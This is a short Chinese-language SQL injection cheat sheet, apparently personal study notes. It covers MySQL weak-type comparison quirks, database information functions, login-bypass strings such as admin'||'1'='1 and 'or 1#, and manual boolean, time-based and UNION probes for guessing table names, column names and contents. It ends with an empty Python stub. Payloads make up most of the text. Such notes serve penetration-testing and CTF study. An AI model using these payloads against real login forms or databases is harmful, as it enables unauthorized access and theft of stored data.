 ## sql特性
### sql里面弱类型的比较，以下情况都会为true：

- 1='1'
- 1='1.0'
- 1='1后接字母(再后面有数字也可以)'
- 0='除了 非0数字 开头 的字符串'
  
    uname=admin
    &passwd=admin'||'1'='1
## 注入

常用函数：

    version() 数据库版本
    @@datadir 数据库路径
    @@version_compile_os
    user()
    database() 数据库名称
    system_user() 系统用户名
    current_user() 当前用户名
    session_user() 连接数据库的用户名
    floor() 取整
    rand() 随机0-1
    concat("abc","123")=abc123
    concat("abc",0x22,"123")=abc"123

### 万能密码
`'or 1#`  
其他待补充 

### 手工注入

```sql
select sleep(if(length(@@version)=6,20,0));
--长度为6 sleep 2秒，否则0秒。

select sleep(if(ord(mid((select user()),1,1))<150,0,2));
and exists(select * from admin) 
--说明存在表admin

admin and exists(select admin from admin) 
--说明存在admin列

and (select length(username) from admin limit 1)>0 
--猜解数据库列名长度：修改后面的>0是猜解长度 

and (select top 1 ascii(substring(username 1,1)) from admin)>0 
--猜解内容：猜解出的内容需对应ASCII表,ascii、substring为MySQL的函数，MsSQL略有不同
ORDER BY num
--爆字段长度
and 1=1 union select 1,2,3,4...n
--匹配字段:
group_concat()
--函数让检索出来的语句以行的形式显示。如果不用这个函数，就不会看到输出结果。 

```
### 延时注入
```py
import requests
import string

```